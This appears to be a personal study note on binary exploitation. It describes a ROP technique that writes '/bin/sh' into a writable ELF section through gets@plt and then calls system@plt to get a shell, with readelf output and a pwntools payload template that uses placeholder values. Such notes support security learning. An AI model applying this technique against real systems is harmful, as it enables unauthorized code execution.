 ```yaml
---
id: rop_writing_arguments_in_data_section
aliases:
  - rop
  - return_oriented_programing
tags:
  - rop
  - binary_exploitation
  - stack_overflow
---
```


## Usage:
This technique is used when address space outside the binary is randomized but PIE is disabled. You can write arguments and strings to the data section of the bianry to pass it over to the registers with [[rop]].
Sequence:
 - Write /bin/sh to a writable section of elf with gets@plt
 - Pop /bin/sh to $rdi and call system@plt 

## Example:
[Linux]
Use this technique to call `system@plt` with `/bin/sh` as argument 

1. ### Examine the header of the ELF to find a writable section with [[readelf]].
```bash
readelf -h <ELF>  #displays the header
Output:
Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400318  00000318
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.gnu.propert NOTE             0000000000400338  00000338

[..snip..]

  [24] .got.plt          PROGBITS         0000000000404000  00003000
       0000000000000040  0000000000000008  WA       0     0     8
  [25] .data             PROGBITS         0000000000404040  00003040
       0000000000000010  0000000000000000  WA       0     0     8
  [26] .bss              NOBITS           0000000000404050  00003050
       0000000000000008  0000000000000000  WA       0     0     1
  [27] .comment          PROGBITS         0000000000000000  00003050
       000000000000002a  0000000000000001  MS       0     0     1
[..snip..]
   
   ```   
.bss section has the WA (write alloc) flag meaning that it is writable
 
> [!NOTE]
> It is better to not use the straight address (0x404050) but to add some bytes eg. + 0x400 

2. ### Find the "pop rdi" gadget with [[pwntools#7-return-oriented-programming|pwntools]]
`pop_rdi = rop.rdi.address`

3. ### Find the `system@plt` and `gets@plt` addresses with [[pwntools#7-return-oriented-programming]]
`elf.plt['system']`
`elf.plt['gets']`

4. ### Construct the shellcode
```py
from pwn import *

elf = ELF(/file)
context.binary = elf 
rop = ROP(elf)

payload = OFFSET
payload += p64(pop_rdi)
payload += p64(writable elf section 0x404450)
payload += p64(elf.plt['gets'])

payload += p64(pop_rdi)
payload += p64(writable elf section)
payload += p64(elf.plt['system'])

f = open(shell.py, 'wb')  #write to a file in binary format
f = f.write(payload)
f.close()
```

5. ### Deliver shellcode
Deliver shellcode [[send_shell_to_file]]
